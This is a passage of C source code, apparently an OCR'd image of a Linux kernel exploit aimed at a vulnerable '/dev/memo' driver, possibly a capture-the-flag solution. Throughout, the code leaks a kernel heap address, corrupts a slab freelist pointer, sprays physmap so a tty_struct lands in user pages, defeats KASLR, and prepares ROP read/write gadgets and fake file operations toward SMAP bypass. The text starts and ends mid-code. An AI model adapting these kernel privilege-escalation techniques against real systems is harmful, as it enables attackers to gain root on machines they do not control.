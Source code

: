 ```

    unsigned long page[0x101];
    int i;

    for (i = 0; i &lt; 0x101; i++) {
        page[i] = read64(addr + i*8);
    }
    for (i = 0; i &lt; 0x100; i++) {
        if (((page[i] &amp; 0xff) != 0x67) || (!(page[i] &gt;&gt; 63))) {
            return 0;
        }
    }

    return page[0x100] == 0;
}

int main(int argc, char **argv) {

    char trash[0x3FF];
    struct skewBuf buf;
    int i;

    assert(sizeof(buf) == 0x400);
    memset(trash, 0xcc, sizeof(trash));

    // open the device
    fd = Open("/dev/memo", O_RDWR);

    // leak a SLAB address
    Write(fd, trash, sizeof(trash));
    Read(fd, &amp;buf, sizeof(buf));
    unsigned long heapAddr = buf.vec[0];
    LOG("Got a kernel heap leak: %pn", (void *)heapAddr);

    // overwrite the fd of next chunk to a 'guess'ed physmap address
    lseek(fd, 0x3FF, SEEK_SET);
    buf.vec[0] = heapAddr &amp; 0xffffffffff000000;
    LOG("tty_struct will be allocated at address: %pn", (void *)buf.vec[0]);
    Write(fd, &amp;buf, sizeof(buf));

    // physmap spray
    physmap_spray();

    // allocate a ptmx object, it will be allocated to userspace mmap pages
    int tty_fd = Open("/dev/ptmx", O_RDWR|O_NOCTTY);
    unsigned long*pg = page_hit();
    if (!pg) {
        puts("[-] failed to get a tty_struct allocated in one of our pages");
        exit(-1);
    }
    LOG("now page %p is synonymous with tty_struct of fd %dn", pg, tty_fd);
    // create fake fops
    // 0xffffffff810a0333: mov dword ptr [rdx], esi; ret; 
    // 0xffffffff81051543: mov rax, qword ptr [rdx + 0x28]; ret; 
    unsigned long fops = pg[3];
    kernel_base = fops - 0xffffffff81e65800 + 0xffffffff80e00000;
    w_gadget = kernel_base + 0xffffffff810a0333 - 0xffffffff80e00000;
    r_gadget = kernel_base + 0xffffffff81051543 - 0xffffffff80e00000;
    init_task = kernel_base + 0xFFFFFFFF82211740 - 0xffffffff80e00000;
    setup_disble_smap = kernel_base + 0xffffffff8a98f556 - 0xffffffff80e00000;

    for (i = 0; i &lt; 0x80; i++) {
        ftable[i] = 0xdead0000 + i;
```
